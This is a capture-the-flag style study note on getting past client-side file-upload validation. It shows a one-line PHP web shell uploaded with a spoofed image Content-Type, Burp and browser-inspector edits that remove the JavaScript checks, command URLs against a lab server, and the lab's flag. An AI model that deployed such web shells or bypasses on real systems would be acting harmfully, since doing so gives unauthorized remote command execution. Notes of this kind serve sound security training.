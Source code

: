 # Client-Side Validation

When the file format validation is happening on the client-side, we can easily bypass it by directly interacting with the server, skipping the front-end validations altogether. 

Example :
We may still select the All Files option to select our PHP script anyway, but when we do so, we get an error message saying (Only images are allowed!) and Upload gets disabled

## Back-end Request Modification

Using Burp :

filename="shell.php"
Content-Type: image/png

<?php system($_GET['cmd']); ?>

## Disabling Front-end Validation

Using Burp :
[CTRL+SHIFT+C] to toggle the browser's Page Inspector

<input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)" accept=".jpg,.jpeg,.png">

[CTRL+SHIFT+K], and then we can type the function's name (checkFile) :

function checkFile(File) {
...SNIP...
    if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
        $('#error_message').text("Only images are allowed!");
        File.form.reset();
        $("#submit").attr("disabled", true);
    ...SNIP...
    }
}

Modify it to :
onchange=""

Check the URL of uploading :
<img src="/profile_images/shell.php" class="profile-image" id="profile-image">

http://SERVER_IP:PORT/profile_images/shell.php?cmd=id

## LAB

     <form action="upload.php" method="POST" enctype="multipart/form-data" id="uploadForm" onSubmit="if(validate()){upload()}">
        <input type="file" name="uploadFile" id="uploadFile" onChange="showImage()" accept=".jpg,.jpeg,.png">
        <img src='/profile_images/default.jpg' class='profile-image' id='profile-image'>
        <input type="submit" value="Upload" id="submit">
      </form>

function validate() {
  var file = $("#uploadFile")[0].files[0];
  var filename = file.name;
  var extension = filename.split('.').pop();

  if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
    $('#error_message').text("Only images are allowed!");
    File.form.reset();
    $("#submit").attr("disabled", true);
    return false;
  } else {
    return true;
  }
}

Burp > Proxy > Options > Intercept Server Responses

Change

onSubmit="if(validate()){upload()}"

to

onSubmit="upload()"

http://94.237.56.188:35745/profile_images/shell.php?cmd=id

http://94.237.56.188:35745/profile_images/shell.php?cmd=cat%20/flag.txt
HTB{cl13n7_51d3_v4l1d4710n_w0n7_570p_m3}